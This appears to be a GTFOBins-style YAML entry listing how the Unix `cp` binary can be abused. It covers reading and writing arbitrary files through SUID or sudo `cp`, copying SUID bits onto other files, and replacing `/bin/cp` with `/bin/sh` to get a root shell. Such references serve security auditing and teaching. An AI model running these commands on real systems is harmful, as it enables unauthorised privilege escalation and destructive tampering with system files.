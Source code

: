 ```yaml
---
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        cp "$LFILE" /dev/stdout
  file-write:
    - code: |
        LFILE=file_to_write
        echo "DATA" | cp /dev/stdin "$LFILE"
  suid:
    - code: |
        LFILE=file_to_write
        echo "DATA" | ./cp /dev/stdin "$LFILE"
    - description: This can be used to copy and then read or write files from a restricted file systems or with elevated privileges. (The GNU version of `cp` has the `--parents` option that can be used to also create the directory hierarchy specified in the source path, to the destination folder.)
      code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo "DATA" > $TF
        ./cp $TF $LFILE
    - description: This can copy SUID permissions from any SUID binary (e.g., `cp` itself) to another.
      code: |
        LFILE=file_to_change
        ./cp --attributes-only --preserve=all ./cp "$LFILE"
  sudo:
    - code: |
        LFILE=file_to_write
        echo "DATA" | sudo cp /dev/stdin "$LFILE"
    - description: This can be used to copy and then read or write files from a restricted file systems or with elevated privileges. (The GNU version of `cp` has the `--parents` option that can be used to also create the directory hierarchy specified in the source path, to the destination folder.)
      code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo "DATA" > $TF
        sudo cp $TF $LFILE
    - description: This overrides `cp` itself with a shell (or any other executable) that is to be executed as root, useful in case a `sudo` rule allows to only run `cp` by path. Warning, this is a destructive action.
      code: |
        sudo cp /bin/sh /bin/cp
        sudo cp
---
```


